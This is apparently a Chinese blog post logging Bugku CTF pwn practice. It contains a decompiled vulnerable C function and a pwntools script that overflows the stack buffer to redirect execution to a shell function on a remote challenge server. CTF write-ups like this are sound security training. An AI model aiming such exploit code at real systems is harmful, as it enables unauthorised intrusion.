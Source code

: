 ```yaml
---
title: Bugku Pwn 练习记录
date: 2019-10-29 15:40:03
tags:
  - 栈漏洞
  - fsb
categories:
  - 二进制安全
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/BugkuPwn/0.png
---
```


Pwn 入门。



## pwn1

nc 上去直接拿到了 shell。

## pwn2

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-30h]

  memset(&s, 0, 0x30uLL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  puts("say something?");
  read(0, &s, 0x100uLL);
  puts("oh,that's so boring!");
  return 0;
}
```

最简单的栈溢出，IDA 中可以发现目标函数 `get_shell_`，地址为 `0x400751`。`s` 位于 `ebp-0x30`，与要覆盖的返回地址相差 `0x38`（注意是 64 位程序），那 payload 就是 `'a'*0x38 + p64(0x400751)`。

```python
from pwn import *

p = remote('114.116.54.89', 10003)

payload = 'a'*0x38 +p64(0x400751)

p.recvline()
p.sendline(payload)

p.interactive()
```
